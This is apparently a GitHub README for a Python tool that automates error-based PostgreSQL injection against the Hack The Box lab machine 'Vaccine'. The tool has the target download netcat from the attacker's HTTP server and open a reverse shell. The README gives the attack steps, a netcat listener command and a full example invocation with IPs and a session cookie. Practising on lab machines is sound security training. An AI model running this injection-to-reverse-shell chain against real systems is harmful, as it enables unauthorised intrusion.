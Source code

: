 # PostgreSQL-Shell

## DESCRIPTION
A Python program that automates the process of error-based PostgreSQL injection RCE on the MegaCorp Car Catalogue-
Website running on of one of the Hack The Box's machine 'Vaccine' http://10.10.10.46/dashboard.php

It provides reverse shell connection to the attacker by mainly doing the followings:
1. Copies the origial Netcat file (/usr/bin/nc) to the local /tmp directory of the attacker's machine.
2. Sets up an HTTP server on the local /tmp directory.
3. Creates a new table in the database of the target server.
4. Injects a query that initiates a file transfer command to download a Netcat binary file from attacker's machine.
5. Injects a query that executes the downloaded Netcat to initiate reverse shell.

## ORIGINAL SOURCE
https://www.aldeid.com/wiki/HackTheBox-StartingPoint-Vaccine

Modifier: lkim94

## CAUTION
The shell disconnects when there's a few minutes of inactivity.
Terminating this program's process while the shell is active can also cause unexpected disconnection.

## USAGE
1. `nc -lvnp <listen_port#>`

![PostgreSQL-ShellyPoC1](https://user-images.githubusercontent.com/83319068/130559443-c6f3554e-2a73-41a9-bb38-603e912230be.png)

2. `python3 PostgreSQL-Shell.py -L <attacker_ip> -l <listen_port#> -t <target_ip> -p <url_parameter> -c <cookie>`

![PostgreSQL-ShellyPoC2](https://user-images.githubusercontent.com/83319068/130559455-4b39932e-c68f-4cdf-bdfd-c178b7355f08.png)
![PostgreSQL-ShellyPoC3](https://user-images.githubusercontent.com/83319068/130559467-07d92f93-db36-43a7-8243-b8e5444b8733.png)

## EXAMPLE
`python3 PostgreSQL-Shell.py -L 10.10.14.44 -l 4444 -t 10.10.10.46 -p dashboard.php?search=car -c PHPSESSID=akebd2jzejfk47n3n3xucj4vem`
